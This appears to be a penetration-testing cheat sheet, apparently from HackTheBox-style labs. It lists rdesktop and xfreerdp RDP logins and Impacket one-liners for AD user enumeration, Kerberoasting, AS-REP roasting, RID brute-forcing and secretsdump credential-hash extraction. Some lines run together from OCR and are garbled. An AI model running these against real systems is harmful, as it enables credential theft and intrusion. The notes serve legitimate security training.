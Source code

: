```
```
[Header](#header)
## RDP
#### RDesktop
```
rdesktop -g 80% 10.10.10.10
rdesktop -g 80% -u USER -p 'PASS' 10.10.10.10rdesktop -g 80% -u DOMAIN\\USER -p 'PASS' 
    10.10.10.10rdesktop -g 80% -u USER -p 'PASS' -r disk:tmp=/root/share 10.10.10.10
```
#### xfreerdp
```
xfreerdp connection.rdp /p:Pwd123! /fxfreerdp /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com
xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489xfreerdp /u:JohnDoe /p:Pwd123! /vmconnect:C824F53E-95D2-46C6-9A18-23A5BB403532 /v:192.168.1.100
xfreerdp --plugin rdpsnd --plugin rdpdr --data disk:home:/home -- -u administrator 10.1.1.2 
\\tsclient\home
```
[Header](#header)
## Impacket

[beginner impacket info](#https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)
#### SMB Server
```
impacket-smbserver -smb2support files `pwd`
```
#### GetADUSer
```
GetADUsers.py -all dom.ain/user -dc-ip 10.10.10.10
```
#### GetUserSPNs
```
GetUserSPN.py -request -dc-ip 10.10.10.10 domain/user
GetUserSPNs.py domain/user -dc-ip 10.10.10.10
```
#### AS-REP Roast
```
GetNPUsers.py domain.name/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```
#### mssqlclient
```
mssqlclient.py htb.local/user@10.10.10.10
```
#### lookupsid
```
lookupsid.py  "user:pass@10.10.10.10"
```
#### ridenum
```
ridenum.py 10.10.10.10 500 50000
```
#### secretsdump
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
secretsdump.py -ntds ntds.dit -system system.save LOCAL -outputfile hash
```
[Header](#header)
## Defualt web Login
```
https://github.com/InfosecMatter/default-http-login-hunter
```